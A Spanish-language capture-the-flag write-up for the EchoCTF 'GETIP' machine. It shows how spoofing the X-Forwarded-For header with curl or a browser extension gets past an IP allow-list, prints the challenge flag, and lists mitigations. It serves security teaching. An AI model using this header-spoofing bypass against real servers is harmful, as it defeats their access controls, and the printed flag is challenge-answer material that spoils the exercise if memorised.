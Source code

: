 ![getip](https://raw.githubusercontent.com/Juno0w0/echoCTF_Writeups/refs/heads/main/Writeups/GETIP/GETIP.png)
# GETIP - CTF Writeup

---

## Introducción

La máquina **GETIP** de **EchoCTF** presenta un reto basado en la manipulación de cabeceras HTTP para lograr que el servidor interprete que la petición proviene de una IP permitida. La pista indica que cuando una solicitud web pasa por servidores intermedios, se añade una cabecera que indica para quién está siendo reenviada la petición. Para resolver el reto, debemos hacer que nuestra IP aparente ser `localhost` o `127.0.0.1`.

---

## Reconocimiento y Exploración

Al realizar una conexión HTTP a la dirección `http://10.0.41.6:1337/` recibimos la respuesta:

``` csharp
10.10.6.42 is not allowed...
```

Esta respuesta indica que la IP real desde la cual se realiza la petición (`10.10.6.42`) está bloqueada.

---

## Manipulación de Cabeceras para Bypass

Observamos que nos dice que nuestra `IP 10.10.6.42` no es permitida La hint anterior y esta respuesta indican que debemos de cambiar nuestra `IP a 127.0.0.1 o 'localhost'` mediante la manipulacion de cabeceras, esto se puede lograr de dos maneras, una grafica y una mediante terminal, explicare a continuacion ambas

### Método Terminal (usando curl)

Al hacer una petición simple con curl:

```bash
curl http://10.0.41.6:1337/
```

Obtenemos:

```
10.10.6.42 is not allowed...
```

Si queremos ver las cabeceras que nuestra petición envía, podemos usar:

```bash
curl -v http://10.0.41.6:1337/
```

Esto muestra información como:

```
> GET / HTTP/1.1
> Host: 10.0.41.6:1337
> User-Agent: curl/8.13.0
> Accept: */*
```

Para modificar la IP aparente, añadimos la cabecera `X-Forwarded-For` con la IP deseada:

```bash
curl -H "X-Forwarded-For: 127.0.0.1" http://10.0.41.6:1337/
```

Con esto, la petición aparenta venir de `127.0.0.1` en lugar de `10.10.6.42`.

Respuesta exitosa:

```
ETSCTF_SheesStealer_was_here%
```

---

### Método gráfico (usando navegador y extensiones)

1. Ingresamos a la URL `http://10.0.41.6:1337/` en el navegador y observamos el mensaje de bloqueo. 

![getip2](https://raw.githubusercontent.com/Juno0w0/echoCTF_Writeups/refs/heads/main/Writeups/GETIP/getip2.png)

2. Abrimos la extensión **ModHeader** (disponible para Chrome y Firefox).

![getip3](https://raw.githubusercontent.com/Juno0w0/echoCTF_Writeups/refs/heads/main/Writeups/GETIP/getip3.png)

3. Añadimos una nueva cabecera con:
   - Nombre: `X-Forwarded-For`
   - Valor: `127.0.0.1`
![getip4](https://raw.githubusercontent.com/Juno0w0/echoCTF_Writeups/refs/heads/main/Writeups/GETIP/getip4.png)

3. Recargamos la página o navegamos nuevamente a la URL.
4. La respuesta ahora nos mostrará la bandera correctamente.

---

## Identificación de Vulnerabilidades

- El servidor confía en el valor del header `X-Forwarded-For` sin validarlo adecuadamente.
- No existe un control de autenticación o validación de IPs robusto.
- La validación se basa únicamente en la IP remitida por cabeceras manipulables, lo que permite el spoofing.
- Esta confianza indebida abre la puerta a bypass de controles de acceso y filtrado.

---

## Medidas de Mitigación

- Validar y sanitizar las cabeceras `X-Forwarded-For` y similares para asegurarse que provienen de fuentes confiables.
- No confiar exclusivamente en cabeceras HTTP para determinar la IP real del cliente.
- Implementar controles de acceso basados en autenticación sólida en lugar de confiar en IPs.
- Configurar proxies y servidores frontales para evitar que usuarios puedan modificar cabeceras críticas.
- Registrar y monitorear accesos sospechosos y patrones anómalos.

---

``` c
Writeup Made With ❤️ By SheepsStealer
```

